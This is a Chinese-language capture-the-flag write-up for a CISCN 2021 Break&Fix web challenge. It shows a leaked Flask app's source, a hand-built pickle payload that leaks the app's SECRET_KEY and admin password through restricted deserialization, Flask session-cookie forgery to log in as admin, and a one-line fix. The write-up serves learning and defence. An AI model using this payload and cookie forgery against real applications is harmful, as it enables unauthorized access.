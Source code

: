 # CISCN 2021 西南分区赛 Web3 Break&Fix WriteUp


## 0x00 前言

一次体验还可以的线下，一共就出了两个 Web 题还都是一血就很开心，由于 Web1 过于简单 (sqlmap 一把梭了)，而 Web2 由于前半部分没有做出来，仅仅对其后半部分 ([还原 PHP mt_rand 种子](/posts/php-mt_rand-break/)) 进行了分析，这里就只具体分析一下 Web3



## 0x01 Break

### 源码泄露及分析

扫目录发现 `/backup` 打开发现源码泄露

```python
from flask import Flask, request, session, render_template, url_for
import pickle
import io
import sys
import base64
from settings import SECRET_KEY, User, ADMIN_PASSWORD

app = Flask(__name__)
app.config.update(dict(
    SECRET_KEY=SECRET_KEY,
))
app.config.from_envvar('FLASKR_SETTINGS', silent=True)



class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        # Only allow safe classes
        if module in ['settings'] and "__" not in name:
            return getattr(sys.modules[module], name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))


def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()

# index
@app.route('/')
@app.route('/index')
def index():
    if session.get('logged_in', None):
        name = session.get('name')
        if name == 'admin':
            return render_template('index.html', msg=open('/flag').read())
    else:
        session['logged_in'] = 0
        session['name'] = 'Anonymous'
        msg = '<img src="' + url_for('static', filename='img/1.jpeg') + '"><br>Please Login First, {} '

    return render_template('index.html', msg=msg.format(session.get('name')))


# load
@app.route('/load')
def loads():
    data = request.args.get('data', '')
    if data:
        Haha = restricted_loads(base64.b64decode(data))
        assert isinstance(Haha, User)
        if Haha.password == ADMIN_PASSWORD:
            return render_template('index.html', msg=Haha.msg)
        return render_template('index.html', msg="<img src='" + url_for('static', filename='img/2.jpeg') + "'><br>给👴🏻爬")
    return render_template('index.html', msg="<img src='" + url_for('static', filename='img/2.jpeg') + "'><br>儒 雅 随 和")



@app.route('/backup')
def hint():
    return open(__file__, 'rb').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0',debug=False,port=5001)
```

看源码发现两个值得注意的地方，第一个地方是 `index` 函数中通过 `session` 判断身份，若 `session['name']` 的值为 `admin` 则输出 `flag`，猜测需要 flask session 伪造，那么就需要知道 `SECRET_KEY` 的值，第二个地方是 `loads` 函数中存在 pickle 反序列化，查看 `RestrictedUnpickler` 类发现 `find_class` 限制 `module` 必须为 `settings` 而 `name` 中不能含有 `__`，而 `return render_template('index.html', msg=Haha.msg)` 处存在一个可控的输出点

分析之后我们的做题逻辑就很清晰，第一步通过 pickle 反序列化泄露 `SECRET_KEY`，第二步伪造 session 输出 flag



### pickle 反序列化

> 对于 pickle 反序列化的介绍在这篇文章中：[Python pickle 反序列化安全简述](/posts/python-pickle-unserialize/)

正如上文说的，V0 版本的序列化数据会 500，现场分析了一下默认版本 V4 的字节码然后手改了一下然后过了，这里写一下我手改 V4 版本序列化数据的过程，也算是一个分析 pickle 序列化数据的示例

首先写一个测试用的 `User` 类

```python
# settings.py
class User:
    def __init__(self):
        self.password = "password"
        self.msg = "msg"

# app.py
from settings import User
import pickle
print(pickle.dumps(User()))
```

并得到反序列化数据

```
\x80\x04\x952\x00\x00\x00\x00\x00\x00\x00\x8c\x08settings\x94\x8c\x04User\x94\x93\x94)\x81\x94}\x94(\x8c\x08password\x94h\x05\x8c\x03msg\x94h\x06ub.
```

对其进行简单分析

- `\x80\x04\x952\x00\x00\x00\x00\x00\x00\x00` 为版本描述和创建 frame（总的来说就是初始化

- `\x8c\x08settings\x94` 入栈字符串并放入内存中，其中 `\x8c` 为入栈短字符串操作符，`\x08` 为字符串长度 (故最长 256 字节)，后面跟字符串，`\x94` 将栈顶元素放入 memo 中 (索引为递增的 1-byte 数字)

  `\x8c\x04User\x94` `\x8c\x08password\x94` `\x8c\x03msg\x94` 同理

  > pickle 默认将栈中变量放入 memo 中，也可以不放

- `\x93` 与 `c` 操作符作用相同，区别在于 `c` 操作符参数需要传入，`\x93` 操作符使用栈顶两个元素作为参数，如这里 `\x8c\x08settings\x94\x8c\x04User\x94\x93\x94` 即获取 `settings.User`

- `\x81` 与 `o` 和 `i` 作用相同，可用于创建类的实例，但是调用 `__new__` 方法创建，使用栈顶两个参数，栈顶参数为所调用参数，需要为 tuple，后一个参数为一个类对象，如这里 `\x8c\x08settings\x94\x8c\x04User\x94\x93\x94)\x81\x94` 即调用了 `settings.User.__new__()` 创建了一个 `settings.User` 的实例

- `}\x94(\x8c\x08password\x94h\x05\x8c\x03msg\x94h\x06ub` 大部分用到的操作码都介绍过，这里 `h\x05` 和 `h\x06` 获取到的就是前边刚放入的 'password' 和 'msg' 字符串，这一部分即创建一个 dict： `{'password': 'password', 'msg': 'msg'}`，然后作为参数通过 `b` 操作码更新前面创建的实例

分析到这里各部分的作用都已经很清晰了，而我们要做的很简单，就是把最后创建的 dict 中两个值 `h\x05` `h\x06` 分别换为 `settings.ADMIN_PASSWORD` 和 `settings.SECRET_KEY`，即最后创建的 dict 为 `{'password': settings.ADMIN_PASSWORD, 'msg': settings.SECRET_KEY}`

这里我选择用了比较 V4 的方法获取，以获取 `settings.ADMIN_PASSWORD` 为例，我使用了 `\x8c\x08settings\x94\x8c\x0eADMIN_PASSWORD\x94\x93\x94` （其实就是把获取 `settings.User` 时候的操作码拿过来改一下

最终得到非常 V4 的序列化数据如下

```
\x80\x04\x952\x00\x00\x00\x00\x00\x00\x00\x8c\x08settings\x94\x8c\x04User\x94\x93\x94)\x81\x94}\x94(\x8c\x08password\x94\x8c\x08settings\x94\x8c\x0eADMIN_PASSWORD\x94\x93\x94\x8c\x03msg\x94\x8c\x08settings\x94\x8c\nSECRET_KEY\x94\x93\x94ub.
```

base64 encode 一下传进去就可以拿到 SECRET_KEY 了



### session 伪造

这一步就非常简单了，用这个库 [Flask Session Cookie Decoder/Encoder](https://github.com/noraj/flask-session-cookie-manager) 解一下 Cookie 中的 session 得到

```
{"logged_in":0,"name":"Anonymous"}
```

修改成如下数据然后再用上述库和上一步得到的 SECRET_KEY 得到新的 session 值

```
{"logged_in":1,"name":"admin"}
```

替换掉 Cookie 中的 session 访问 `/index` 即可得到 flag



## 0x02 Fix

这题 Fix 的思路就非常简单了

源码的第 19~20 行是对反序列化进行限制的主要部分，限制了 `module` 和 `name`，只需要在 if 里加一个条件过滤掉 `SECRET_KEY` 和 `ADMIN_PASSWORD` 即可，即将第 19 行改为如下代码

```python
if module in ['settings'] and "__" not in name and name not in ['SECRET_KEY', 'ADMIN_PASSWORD']:
```



## 0x03 后记

这次比赛感觉 Web 题整体偏难，全场也只有 Web1 和 Web3 有解，可能是因为断网的原因吧，网一断确实就不会做题了（x

但是整体比赛体验还是很不错的，除了泥电宾馆会议室那个破空调是真的不行，打个比赛差点没中暑，强烈吐槽

哦，还有零食太少了，建议决赛来个零食大礼包


